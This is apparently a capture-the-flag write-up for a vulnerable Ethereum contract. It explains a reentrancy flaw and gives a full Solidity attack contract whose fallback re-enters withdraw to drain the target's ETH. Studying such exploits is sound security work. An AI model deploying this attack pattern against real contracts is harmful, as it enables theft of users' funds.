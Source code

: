 #Reentrancy

The weakpoint of this smart contract lies within the msg.sender.call where it calls either the
sender's receive or payable fallback function. We can first donate some amount of ETH in order to
get our balance above 0. Then we recursively withdraw the value that we donated thereby increasing
our balances to the integer max. Since we now have a balance greater than that of what we actually
donated, we can withdraw to take the remaining balance left in the contract.

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IReentrance{
    function donate(address) external payable;
    function balanceOf(address) external view returns(uint);
    function withdraw(uint) external;
}

contract ReentrancyAttack {
    address payable immutable i_targetAddress;
    uint private attackerValue;
    constructor(address payable _targetAddress) {
        i_targetAddress = _targetAddress;
    }
    function addFunds() public payable{
        attackerValue = msg.value;
        IReentrance(i_targetAddress).donate{value: msg.value}(address(this));
    }

    function getBalance(address _addr) public view returns(uint) {
        return IReentrance(i_targetAddress).balanceOf(_addr);
    }
    function attack() public {
        IReentrance(i_targetAddress).withdraw(attackerValue);
    }
    function withdrawAll() public {
        IReentrance(i_targetAddress).withdraw((i_targetAddress).balance);
    }
    //receive() external payable{}
    fallback () external payable {
        if(msg.value == attackerValue) {
            IReentrance(i_targetAddress).withdraw(attackerValue);
        }
    }
}

```
